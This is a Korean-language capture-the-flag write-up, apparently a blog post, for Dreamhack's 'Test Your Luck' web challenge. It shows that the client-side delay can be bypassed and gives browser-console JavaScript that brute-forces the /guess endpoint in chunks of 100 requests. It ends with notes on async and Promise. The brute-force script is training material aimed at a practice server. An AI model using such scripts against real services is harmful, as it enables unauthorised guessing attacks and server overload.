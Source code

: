 ```yaml
---
title: "[Level1]Test Your Luck"
categories: [Security, Web]
tags: [Dreamhack, Level1]
mermaid: true
---
```

### 문제 설명  
Test Your Luck~🍀  
숫자를 맞히고 플래그를 찾아주세요!  
플래그 형식은 DH{...} 입니다.  

### 풀이  
- 코드 분석 결과, 서버가 0~10000 사이의 숫자를 생성하고 사용자가 입력한 숫자와 비교하여 일치하면 플래그를 반환하는 구조  
- `index.html`을 보면, `<script>` 태그를 통해 요청을 보내고 10초간 대기하는 로직이 존재함  
    - 즉, 딜레이 코드는 서버에서 발생하는 것이 아니라 클라이언트 측에서 발생하는 것이므로, API 통신으로 직접 요청을 보내면 딜레이 없이 응답을 받아볼 수 있음  
- 또한 `index.html`을 보면, `fetch`를 통해 `/guess` 경로에 요청을 보내는 형태를 확인할 수 있음  
- 서버에서 생성한 숫자가 0~10000점, API 요청 시 딜레이 무시할 수 있다는 점을 토대로 브루트포싱으로 해결하는 문제라고 판단  

- `index.html`을 통해 API 요청 형태를 알 수 있음  
```html
<script>
    const response = await fetch('/guess', {
        method: 'POST',
        body: formData
    });
</script>
```
- `app.py`를 통해 `body`의 `key` 값이 `guess`임을 알 수 있음  
```python
@app.route('/guess', methods=['POST'])
def guess_number():
    user_guess = int(request.form['guess'])
    # ...
```

### 첫 시도  
- VSCode에서 Python으로 작성하여 진행하면 시간이 오래 걸리므로, 개발자 도구의 콘솔을 통해 직접 요청을 보내는 방식으로 진행  
```javascript
const url = "http://host8.dreamhack.games:port";
for (let i = 0; i < 10000; i++) {
    fetch(url + "/guess", {
        method: "POST",
        body: new URLSearchParams({ "guess": i })
    }).then(res => res.json())
    .then(data => {
        if (data.result != "Incorrect") {
            console.log(data.flag);
        }
    })
}
```
- 위 코드를 실행하면, 다음과 같은 에러가 발생함
!['에러 내용'](assets/img/Dreamhack/Web/Level1/Test-Your-Luck-failed.png)

### 두 번째 시도  
- 에러 내용을 확인해보니, 리소스가 부족하다는 의미였음  
- 이에 청크 단위로 요청을 보내도록 함  
```javascript
(async () => {
    const CHUNK = 100;
    let flag = false;
    for(let i=0; i<10000; i+=CHUNK) {
        if (flag) break;
        console.log(`[*] ${i}~${i+100-1}까지 처리 중...`);

        const promises = [];
        for(let j=i; j<i+CHUNK; j++){
            const promise = fetch(url + "/guess", {
                method: "POST",
                body: new URLSearchParams({"guess" : j})
            }).then(res => res.json())
            .then(data => {
                if (data.result !== "Incorrect") {
                    console.log(`%c 성공! Flag: ${data.flag}`);
                    flag = true;
                }
            });
            promises.push(promise);
        }
        await Promise.allSettled(promises);
    }
})();
```

### 새로 알게된 점  
- 자바스크립트는 기본적으로 한 번에 한 가지 일밖에 못하는 싱글스레드 언어임  
- **비동기 방식**은 이러한 싱글스레드의 한계를 극복하기 위해 사용되며, 특정 코드의 실행이 완료될 때까지 기다리지 않고 다음 코드를 실행할 수 있도록 함. 또한, 작업이 완료되면 그 결과를 처리할 수 있는 별도의 매커니즘(`Promise`)이 동작함  
- `Promise`는 비동기 작업의 최종 완료 또는 실패를 나타내는 객체
- `Promise.allSettled()`는 여러 개의 `Promise`를 동시에 실행하고, 모든 `Promise`가 완료될 때까지 기다린 후, 각 `Promise`의 결과를 배열로 반환함. 이 메서드는 모든 `Promise`가 성공하든 실패하든 상관없이 결과를 반환함  
- `async()`는 호출되면 항상 `Promise`를 반환하며, `await` 키워드를 사용하여 비동기 작업이 완료될 때까지 기다릴 수 있음. `async` 함수 내에서 `await`를 사용하면, 해당 작업이 완료될 때까지 다음 코드를 실행하지 않고 기다림  
